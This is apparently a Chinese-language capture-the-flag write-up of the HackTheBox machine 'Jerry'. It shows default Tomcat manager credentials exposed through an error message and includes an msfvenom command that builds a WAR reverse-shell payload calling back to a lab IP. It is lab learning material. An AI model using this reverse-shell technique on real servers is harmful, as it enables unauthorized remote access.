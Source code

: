 ```yaml
---
{"dg-publish":true,"permalink":"/hackthebox/htb-jerry-windows/","tags":["靶场","打靶","windows","hackthebox"]}
---
```


![image.png](https://s2.loli.net/2025/06/21/vePFNrjIm3ZEw6c.png)

## 端口扫描
![image.png](https://s2.loli.net/2025/06/21/Qav2lDAfLwF3mKB.png)

只有一个 8080 端口

## web 服务信息收集
这是个 tomcat，看看有什么能利用的漏洞吗
![image.png](https://s2.loli.net/2025/06/21/jrzUlyF5DMda3Ye.png)

点击 manager app 可以发现要输入账密。随便输点东西就会爆出账密
![image.png](https://s2.loli.net/2025/06/21/5JmEYzDXckyZupC.png)

## 上传反弹 shell
进入管理界面，我们可以考虑一波。上传 war 的反弹 shell
![image.png](https://s2.loli.net/2025/06/21/5KMGpnQujBCt2sX.png)

用 msfvennom 制作木马
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.12 LPORT=8888 -f war -o shell.war
```

![image.png](https://s2.loli.net/2025/06/21/byXCckwUJi7PNML.png)


![image.png](https://s2.loli.net/2025/06/21/HFIcts9KQuqU3pf.png)

反弹 shell 成功

![image.png](https://s2.loli.net/2025/06/21/fyAKjGzdN1VMETx.png)

还是最高权限的用户

## 找 flag
![image.png](https://s2.loli.net/2025/06/21/Jq9puZfNOUDBkgL.png)



